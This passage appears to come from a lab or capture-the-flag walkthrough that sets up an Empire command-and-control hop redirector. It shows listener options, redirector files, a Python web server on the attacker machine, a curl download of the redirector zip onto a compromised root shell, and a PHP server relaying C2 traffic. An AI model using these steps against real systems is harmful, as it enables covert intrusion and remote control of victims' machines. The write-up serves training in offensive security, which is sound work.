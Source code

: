 ```
  UserAgent         False       default                          User-agent string to use for the staging request (default, none, or other).
  Proxy             False       default                          Proxy to use for request (default, none, or other).
  ProxyCreds        False       default                          Proxy credentials ([domain\]username:password) to use for request (default, none, or other).
  SlackURL          False                                        Your Slack Incoming Webhook URL to communicate with your Slack instance.
```

Execute the listener, and then the http_hop to go with it.

```
[*] Starting listener 'http_hop'
[*] Hop redirector written to /tmp/http_hop//admin/get.php . Place this file on the redirect server.
[*] Hop redirector written to /tmp/http_hop//news.php . Place this file on the redirect server.
[*] Hop redirector written to /tmp/http_hop//login/process.php . Place this file on the redirect server.
[+] Listener successfully started!
```

## Task 29: [Command and Control] Git Server

Now that we have our **http_hop** listener started, we must generate a stager.

We can use a **multi/launcher** for this.

* Set the listener name to the hop (Gitserv).
* Execute
* Save the payload in a file somewhere to use later.
* Create a directory with your ssh session in tmp on .200 (/tmp/hop-USERNAME).
* Zip the files on your VM under /tmp/http_hop.
* Start a python http server.

```
python3 -m http.server 80
```

* Curl the zip file from the ssh session into your directory you made on .200.

```
[root@prod-serv hop-Ferrari404]# curl tun0-IP/hop.zip -o hop.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2961  100  2961    0     0  14100      0 --:--:-- --:--:-- --:--:-- 14100

```

Unzip the file and serve the files on the port we made for our listener.

```
[root@prod-serv hop-USERNAME]# unzip hop.zip
Archive:  hop.zip
   creating: admin/
  inflating: admin/get.php           
   creating: login/
  inflating: login/process.php       
  inflating: news.php                
[root@prod-serv hop-USERNAME]# ls
admin  hop.zip  login  news.php
[root@prod-serv hop-USERNAME]# php -S 0.0.0.0:22903 &>/dev/null &
[1] 3332
[root@prod-serv hop-Ferrari404]# ss -tulwn | grep 22903
tcp     LISTEN   0        128              0.0.0.0:22903          0.0.0.0:* 
```
